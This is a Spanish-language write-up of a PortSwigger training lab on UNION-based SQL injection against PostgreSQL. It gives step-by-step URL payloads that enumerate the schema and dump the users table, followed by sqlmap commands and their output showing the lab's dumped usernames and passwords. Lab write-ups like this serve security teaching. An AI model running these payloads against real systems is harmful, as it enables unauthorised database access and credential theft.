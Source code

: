 ```yaml
---
title: SQL injection attack, listing the database contents on non-Oracle databases
date: 2024-11-15 12:35:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection attack, listing the database contents on non-Oracle databases
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categorías` de `productos`. Los resultados de la consulta se devuelven en la respuesta de la aplicación, por lo que debemos usar un `ataque UNION` para `recuperar datos` de otras tablas. La `aplicación` tiene una `función` de `inicio de sesión`, y la `base` de `datos` contiene una `tabla` que almacena nombres de `usuario` y `contraseñas`. Hay que `determinar` el `nombre` de esta `tabla` y las `columnas` que contiene, y luego `recuperar` el `contenido` de la `tabla` para obtener el `nombre` de `usuario` y la `contraseña` de todos los usuarios. Para resolver el laboratorio, hay que `iniciar sesión` como el usuario `administrador`

---

## Resolución

Al acceder a la `web` nos sale esto

![](/assets/img/SQLI-Lab-5/image_1.png)

Pinchamos en alguna de las `categorías`, capturamos la `petición` con `Burpsuite` y le añadimos una `'` a `category`

![](/assets/img/SQLI-Lab-5/image_2.png)

Si enviamos la `petición` nos dará un `Internal Server Error` debido a que hemos logrado interferir con la `consulta SQL` que se está haciendo

![](/assets/img/SQLI-Lab-5/image_3.png)

Si usamos este `payload`, ya habremos solucionado el error que se estaba produciendo en la `consulta SQL` y se mostrará lo siguiente

```
/filter?category=Lifestyle'or+1=1+--+-+
```

![](/assets/img/SQLI-Lab-5/image_4.png)

Esto se debe a que la `consulta SQL` que se debe estar haciendo debe ser esta

```
SELECT * FROM products WHERE category = 'Lifestyle'
```

Lo que hacemos cuando inyectamos `' or 1=1-- - ` es cerrar la `'` del campo `category` y usar `or 1=1` para que siempre sea verdad y por lo tanto exista, posteriormente con `-- - ` lo que hacemos es ignorar el resto de la `query`

```
SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1 -- - '
```

Usando `order by` podemos `identificar` cuantas `columnas` tiene la `tabla`, si ponemos un `número` de `columnas` que `existe` no obtendremos `ningún error`

```
/filter?category=Lifestyle'order+by+2--+-+
```

![](/assets/img/SQLI-Lab-5/image_5.png)

Sin embargo, si ponemos un `número` de `columnas` que no `existe`, obtendremos un `error`, esto es debido a que estamos ante una `SQLI Error Based`

```
/filter?category=Lifestyle'order+by+3--+-+
```

![](/assets/img/SQLI-Lab-5/image_6.png)

A continuación, usamos `union select` para señalar ambos campos, podemos descartar que la `base` de `datos` sea `Oracle` porque no nos da un error, si nos diera un error probablemente sería una base de datos `Oracle` y debería añadirle `from dual` al final

```
/filter?category=Lifestyle'+union+select+null,null--+-+
```

Con este `payload` lo que hacemos es `listar` la `versión` de la `base` de `datos`, es importante inspeccionar la web correctamente, en este caso el resultado de la `SQLI` está en la parte inferior de la web

```
/filter?category=Lifestyle'+union+select+version(),null--+-+
```

![](/assets/img/SQLI-Lab-5/image_7.png)

`Listamos` las `bases` de `datos`, la expresión `string_agg(columnName, ',')` es como group_concat de `MySQL`

```
/filter?category=Lifestyle'+union+select+null,string_agg(datname, ',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-5/image_8.png)

`Listamos` la `base` de `datos` actual

```
/filter?category=Lifestyle'+union+select+current_database(),null--+-+
```

![](/assets/img/SQLI-Lab-5/image_9.png)

`Listamos` los `esquemas` de la `base` de `datos` actual

```
/filter?category=Lifestyle'+union+select+null,string_agg(schema_name,',')+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-5/image_10.png)

Para `listar` las `tablas` del esquema `public`

```
/filter?category=Lifestyle'+union+select+null,string_agg(table_name,',')+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-5/image_11.png)

Si queremos visualizarlo de mejor forma podemos usar

```
/filter?category=Lifestyle'+union+select+null,array_to_string(array_agg(table_name), E'\n')+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-5/image_12.png)

`Enumeramos` las `columnas` de la tabla `users_nlnyoc`

```
/filter?category=Lifestyle'+union+select+null,array_to_string(array_agg(column_name),E'\n')+from+information_schema.columns+where+table_name='users_nlnyoc'--+-+
```

![](/assets/img/SQLI-Lab-5/image_13.png)

`Obtenemos` el `contenido` de la columna `username_vxtjej` y `password_siipou` de la tabla `users_nlnyoc`

```
/filter?category=Lifestyle%27+union+select+username_vxtjej,password_siipou+from+users_nlnyoc--+-+
```

![](/assets/img/SQLI-Lab-5/image_14.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public --tables --batch --threads 2 
Database: public
[2 tables]
+--------------+
| products     |
| users_jsqujl |
+--------------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users_jsqujl --columns --batch --threads 2  
Database: public
Table: users_jsqujl
[3 columns]
+-----------------+---------+
| Column          | Type    |
+-----------------+---------+
| email           | varchar |
| password_vvhgak | varchar |
| username_gwyaka | varchar |
+-----------------+---------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# sqlmap -u 'https://0ae00021044da00681a6e43e005f00d6.web-security-academy.net/filter?category=Corporate+gifts' --risk=3 --level=5 --random-agent -D public -T users_jsqujl -C password_vvhgak,username_gwyaka --dump --batch --threads 2 
Database: public
Table: users_jsqujl
[3 entries]
+----------------------+-----------------+
| password_vvhgak      | username_gwyaka |
+----------------------+-----------------+
| 77mz52vp06wko24p8cl3 | administrator   |
| aqcaasm9mubsp9ngy3m7 | wiener          |
| 1smn2n4jv1mv1uzv5hqm | carlos          |
+----------------------+-----------------+
```

Nos `logueamos` como el usuario `administrador`

![](/assets/img/SQLI-Lab-5/image_15.png)
